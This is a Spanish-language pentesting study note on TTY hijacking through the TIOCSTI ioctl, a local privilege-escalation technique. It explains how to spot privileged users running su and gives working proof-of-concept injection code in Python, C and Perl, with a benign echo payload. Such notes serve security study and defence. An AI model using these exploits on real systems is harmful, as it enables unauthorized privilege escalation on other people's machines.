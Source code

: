 -----
- Tags: #teoria #practica #escalada 
------
# TTY 

Una **TTY** es un dispositivo de caracteres que realiza la entrada y la salida de carácter en carácter. La comunicación entre los dispositivos de termina y los programas que los leen y escriben está controlada por la interfaz tty.

-----
# TTY Hijack 

Cuando un usuario ejecuta **su $USER** o **su -u $USER** (A menos que se establezca la opción **use_pty**) ese mismo **\$USER** puede aprovecharse de esta terminal del otro usuario con privilegios haciendo uso de la función **TIOCSTI ictl** para inyectar comandos en esta terminal privilegiada y por lo tanto con los permisos correspondientes. 

-----
# Explotación

Para explotar esta vulnerabilidad, primero debemos identificar al usuario privilegiado ejecutando el comando **su -u**, esto podríamos hacerlo hacinedo uso de herramientas como **pspy** o scripts propios para reconocer comandos ejecutados a nivel de sistema.

Teniendo en cuenta el comando **w**, el cual nos permite verificar que usuarios estan logueados y que estan realizando, podríamos detectar a un usuario privilegiado. (**watch -n 1 w**)

Una vez detectado esto, solo haría falta ejecutar un script en **c**, **perl** o **python** para abusar de esta vulnerabilidad. Recomendado leer el [post](https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking) donde se habla de esta vulnerabilidad.

## PoC Python
```python
#!/usr/bin/python3
import os
import fcntl
import termios

def main():
    fd = os.open("/dev/tty", os.O_RDWR)
    if fd < 0:
        print("open")
        return -1

    x = "exit\necho Payload as `whoami`\n"
    for c in x:
        ret = fcntl.ioctl(fd, termios.TIOCSTI, c.encode())
        if ret == -1:
            print("ioctl()")
    
    os.close(fd)
    return 0

if __name__ == "__main__":
    main()
```

## PoC C
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\necho Payload as `whoami`\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

## PoC Perl
```perl
#!/usr/bin/perl

require "sys/ioctl.ph";
open my $tty_fh, '<', '/dev/tty' or die $!;
foreach my $c (split //, "exit\n".'echo Payload as $(whoami)'.$/) {
    ioctl($tty_fh, &TIOCSTI, $c);
}
```